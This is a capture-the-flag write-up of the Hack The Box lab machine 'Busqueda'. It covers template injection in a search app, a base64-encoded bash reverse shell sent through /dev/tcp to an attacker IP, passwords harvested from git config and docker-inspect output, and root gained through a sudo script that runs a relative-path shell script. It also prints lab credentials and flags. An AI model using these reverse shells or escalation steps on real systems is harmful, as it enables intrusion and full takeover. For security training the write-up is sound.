

Busqueda
Nmap Result
From the nmap result we can see that the two ports 22 for ssh and port 80 http are open.
Port 80 try to redirect use to http://searcher.htb/ lets add this to /etc/hosts/
Afer adding the search.htb to the host file we can see the wepage.
but the header on the nmap shows Apache with the ip but when we run the curl with the ip and on searcher.htb we get two different server header. see the highlighted lines below.
busqueda$ curl -v -s 10.129.228.217 1> /dev/null
* Trying 10.129.228.217:80...
* Connected to 10.129.228.217 (10.129.228.217) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.129.228.217
> User-Agent: curl/8.11.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 302 Found
< Date: Fri, 07 Feb 2025 04:03:07 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Location: http://searcher.htb/
< Content-Length: 284
< Content-Type: text/html; charset=iso-8859-1
<
{ [284 bytes data]
* Connection #0 to host 10.129.228.217 left intact
busqueda$ curl -v -s searcher.htb 1> /dev/null
* Host searcher.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.228.217
* Trying 10.129.228.217:80...
* Connected to searcher.htb (10.129.228.217) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: searcher.htb
> User-Agent: curl/8.11.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 07 Feb 2025 04:03:51 GMT
Server: Werkzeug/2.1.2 Python/3.10.6
< Content-Type: text/html; charset=utf-8
< Content-Length: 13519
< Vary: Accept-Encoding
<
{ [1146 bytes data]
* Connection #0 to host searcher.htb left intact
After going through the burbsuit and testing some Server Site Templete Injection SSTI we came to find the right chars that will spit out system info. see below screenshot for the burbsuit

let's get a reverse shell.
used spaces to remove the spcial charechters (+ and ==)YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYxJyAg
Breakdown:
-
echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.10/9001 0>&1' "- This creates a reverse shell command using
bash. bash -i: Starts an interactive Bash shell.>& /dev/tcp/10.10.16.10/9001 0>&1: Redirects standard input/output to the attacker's IP (10.10.16.10) on port9001, establishing a reverse shell.-
| base64 -
Encodes the entire command in Base64 format, making it less suspicious when injected into a vulnerable application.
- This creates a reverse shell command using
Purpose:
- The Base64 encoding is typically used to bypass security filters, evade detection, or deliver payloads in an obfuscated way.
- Once sent to the target system, it can be decoded and executed to establish a reverse shell.
Decoding and Executing:
On the target machine, the attacker can decode and execute it like this:
bash
CopyEdit
echo "BASE64_ENCODED_STRING" | base64 -d | bash
This will decode the Base64 string back into the original Bash reverse shell command and execute it, giving an attacker remote access.
Geting the reverse shell using the base64 encoded string we crated.
string the listener on the kali
Run on the burbsuit repeater
This will be placed insdie the import('os').system('id') in the bubsuit repeater
__import__('os').system('echo -n YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYxJyAg | base64 -d | bash')

Spaces are repladed with urlEconded %20 and added # at the end urlEncoded %20%23%20
After gettign the shell we look through and nothing interesting until we run to see which ports or application are listening.
svc@busqueda:/var/www/app/templates$ ss -lntp
ss -lntp
State Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0 128 127.0.0.1:5000 0.0.0.0:* users:(("python3",pid=1578,fd=6),("python3",pid=1578,fd=4))
LISTEN 0 4096 127.0.0.1:3306 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:40365 0.0.0.0:*
LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:3000 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:222 0.0.0.0:*
LISTEN 0 511 *:80 *:*
LISTEN 0 128 [::]:22 [::]:*
3306 , 5000, and 3000 lets check the mysql conf file for the 3306
We know there's apache2 we can head to the /etc/apache2/siges-enabled/000-default.conf
svc@busqueda:/etc/apache2/sites-enabled$ cat 000-default.conf
cat 000-default.conf
<VirtualHost *:80>
ProxyPreserveHost On
ServerName searcher.htb
ServerAdmin admin@searcher.htb
ProxyPass / http://127.0.0.1:5000/
ProxyPassReverse / http://127.0.0.1:5000/
RewriteEngine On
RewriteCond %{HTTP_HOST} !^searcher.htb$
RewriteRule /.* http://searcher.htb/ [R]
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
ProxyPreserveHost On
ServerName gitea.searcher.htb
ServerAdmin admin@searcher.htb
ProxyPass / http://127.0.0.1:3000/
ProxyPassReverse / http://127.0.0.1:3000/
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
gitea.searcher.htb to the /etc/hosts file and visit the site.
After navigating through the files in the /var/www/app/.git dir we find a confi file that has user and password. see below.
we can use this user and password jh1usoih2bkjaspwe92 to login into the gitea.searcher.htb now.
After using the password to list what commands cody can run as a sudo user.
svc@busqueda:/var/www/app/.git$ sudo -S -l
sudo -S -l
[sudo] password for svc: jh1usoih2bkjaspwe92
Matching Defaults entries for svc on busqueda:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:/var/www/app/.git$
/usr/bin/python3 /opt/scripts/system-checkup.py check what's there for us.
svc@busqueda:/var/www/app/.git$ sudo -S /usr/bin/python3 /opt/scripts/system-checkup.py adds
<usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)
docker-ps : List running docker containers
docker-inspect : Inpect a certain docker container
full-checkup : Run a full system checkup
- docker-ps
- docker-inspect https://docs.docker.com/reference/cli/docker/inspect/
- full-backup
Let's check out the docker-inspect with {{json .Config}} 9608 so it give the output in json format.

copy the json data so we can format it and go throug it.
Output
busqueda$ echo -n '{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}' | jq .
{
"Hostname": "960873171e2e",
"Domainname": "",
"User": "",
"AttachStdin": false,
"AttachStdout": false,
"AttachStderr": false,
"ExposedPorts": {
"22/tcp": {},
"3000/tcp": {}
},
"Tty": false,
"OpenStdin": false,
"StdinOnce": false,
"Env": [
"USER_UID=115",
"USER_GID=121",
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
"USER=git",
"GITEA_CUSTOM=/data/gitea"
],
"Cmd": [
"/bin/s6-svscan",
"/etc/s6"
],
"Image": "gitea/gitea:latest",
"Volumes": {
"/data": {},
"/etc/localtime": {},
"/etc/timezone": {}
},
"WorkingDir": "",
"Entrypoint": [
"/usr/bin/entrypoint"
],
"OnBuild": null,
"Labels": {
"com.docker.compose.config-hash": "e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515",
"com.docker.compose.container-number": "1",
"com.docker.compose.oneoff": "False",
"com.docker.compose.project": "docker",
"com.docker.compose.project.config_files": "docker-compose.yml",
"com.docker.compose.project.working_dir": "/root/scripts/docker",
"com.docker.compose.service": "server",
"com.docker.compose.version": "1.29.2",
"maintainer": "maintainers@gitea.io",
"org.opencontainers.image.created": "2022-11-24T13:22:00Z",
"org.opencontainers.image.revision": "9bccc60cf51f3b4070f5506b042a3d9a1442c73d",
"org.opencontainers.image.source": "https://github.com/go-gitea/gitea.git",
"org.opencontainers.image.url": "https://github.com/go-gitea/gitea"
}
}
ENV we see passwrod (highlighted) for the mysql we can use it to login. we can also test it on other users if we want to.
If we use this password for the administrator:yuiu1hoiu4i5ho1uh on the gitea.searcher.htb we can login successfully.
Now we can see all the source code.
After gong the scripts one of the scripts system-check.sh I find the line where we can run a full check shell. see the hightlight line in the code below.
#!/bin/bash
import subprocess
import sys
actions = ['full-checkup', 'docker-ps','docker-inspect']
def run_command(arg_list):
r = subprocess.run(arg_list, capture_output=True)
if r.stderr:
output = r.stderr.decode()
else:
output = r.stdout.decode()
return output
def process_action(action):
if action == 'docker-inspect':
try:
_format = sys.argv[2]
if len(_format) == 0:
print(f"Format can't be empty")
exit(1)
container = sys.argv[3]
arg_list = ['docker', 'inspect', '--format', _format, container]
print(run_command(arg_list))
except IndexError:
print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
exit(1)
except Exception as e:
print('Something went wrong')
exit(1)
elif action == 'docker-ps':
try:
arg_list = ['docker', 'ps']
print(run_command(arg_list))
except:
print('Something went wrong')
exit(1)
elif action == 'full-checkup':
try:
arg_list = ['./full-checkup.sh']
print(run_command(arg_list))
print('[+] Done!')
except:
print('Something went wrong')
exit(1)
if __name__ == '__main__':
try:
action = sys.argv[1]
if action in actions:
process_action(action)
else:
raise IndexError
except IndexError:
print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
print('')
print(' docker-ps : List running docker containers')
print(' docker-inspect : Inpect a certain docker container')
print(' full-checkup : Run a full system checkup')
print('')
exit(1)
The higlighted line ./full-checkup.sh is not using a full path so if we run this on directory that we have write access to, it will run a full-check up. so let's create a reverse shell and test to get a reverse shell.
ReverseShell
Navigate to /dev/shm create a file full-checkup.sh
cd /dev/shm
nano full-checkup.sh
#inside the file write a reverse shell
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.10/9001 0>&1'
#Change it to executabel
chmod +x full-checkup.sh
sudo -l and provide the password jh1usoih2bkjaspwe92 once again to get what we can run as a sudo. use the full-checkup that we created as an argument and make sue we are listening on the port 9001 with nc -lvnp 9001 then run the command below to get a root access.
root@busqueda:/home/svc# cat user.txt
cat user.txt
2705ce3e3007484fff84e92a45fe4bf9
root@busqueda:/home/svc# cd /root/root.txt
cd /root/root.txt
bash: cd: /root/root.txt: Not a directory
root@busqueda:/home/svc# cd /root
cd /root
root@busqueda:~# cat root.txt
cat root.txt
233779a86876f5fce44ced15c27a77dd
root@busqueda:~#